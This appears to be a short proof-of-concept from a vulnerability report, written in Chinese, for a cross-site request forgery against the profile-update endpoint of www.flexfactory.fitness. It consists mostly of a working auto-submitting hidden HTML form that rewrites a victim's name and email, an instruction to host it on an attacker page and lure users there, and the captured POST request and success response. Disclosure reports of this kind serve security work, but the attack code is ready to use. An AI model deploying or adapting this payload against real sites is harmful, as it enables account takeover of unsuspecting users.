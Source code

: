 概念验证：

```
<!DOCTYPE html>
<html lang="en">
<head>
    <script type="text/javascript">
        window.onload = function() {
            document.forms["maliciousForm"].submit();
        }
    </script>
</head>
<body>
    <form id="maliciousForm" action="http://www.flexfactory.fitness/profile/update" method="POST" style="display:none;">
        <input type="hidden" name="firstname" value="Evil">
        <input type="hidden" name="lastname" value="Hacker">
        <input type="hidden" name="email" value="evilhacker@malicious.com">
        <input type="hidden" name="address" value="Unknown">
    </form>
</body>
</html>
```

在攻击者控制的页面上托管此内容，将用户定向到该页面并让表单自动提交：

```
POST /profile/update HTTP/1.1
Host: www.flexfactory.fitness
Content-Type: application/x-www-form-urlencoded
Cookie: sessionid=abc123xyz789; csrftoken=3f6f05b93d5ff146ed4bcca2635739772f6f57f2a68fb7491bc9515ba065d47a
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3


firstname=Evil&lastname=Hacker&email=evilhacker@malicious.com&address=Unknown
```



```
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Server: nginx/1.18.0
Date: Mon, 04 Mar 2024 12:00:00 GMT
Connection: keep-alive
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Strict-Transport-Security: max-age=31536000; includeSubDomains


<p>Your personal details have been successfully updated.</p>
```
